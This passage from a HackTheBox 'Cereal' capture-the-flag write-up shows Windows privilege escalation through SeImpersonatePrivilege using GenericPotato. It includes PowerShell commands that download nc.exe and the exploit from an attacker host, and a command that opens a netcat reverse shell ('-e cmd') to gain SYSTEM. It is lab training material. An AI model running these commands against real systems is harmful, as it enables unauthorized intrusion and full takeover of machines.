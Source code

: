 Looking again on the box we see that we have SeImpersonatePrivilege enabled, we can impersonate the administrator token and become root

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-26-HackTheBox-Cereal/2021-09-26-HackTheBox-Cereal%2010:29:38.png)

We searched about it, and found a [github](https://github.com/micahvandeusen/GenericPotato) link from the author of the box with a `GenericPotato`, once we cannot use the RottenPotato because of the version of the windows server

We donwload it compiled from another write-up of this box, of course this is not recommend because we don't know what the user have compiled there, but once we know it's just a ctf, no big problem to use it.

[GenericPotato](https://gitlab.com/th3d00msl4y3r/hackthebox-spanish/-/blob/master/Dificil/Cereal/exploit/GenericPotato.exe)

We download it to the box, with the nc.exe too

```ps1
powershell IWR -Uri http://10.10.14.20:8000/nc.exe -OutFile C:\\Users\\sonny\\Desktop\\nc.exe
powershell IWR -Uri http://10.10.14.20:8000/GenericPotato.exe -OutFile C:\\Users\\sonny\\Desktop\\GenericPotato.exe
```

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-26-HackTheBox-Cereal/2021-09-26-HackTheBox-Cereal%2010:39:13.png)

Okay, downloaded

```
.\GenericPotato.exe -p "C:\Users\sonny\Desktop\nc.exe" -a "10.10.14.20 555 -e cmd" -e HTTP -l 5555
```

We run the query

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-26-HackTheBox-Cereal/2021-09-26-HackTheBox-Cereal%2010:45:16.png)

And get a system shell

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-09-26-HackTheBox-Cereal/2021-09-26-HackTheBox-Cereal%2010:45:37.png)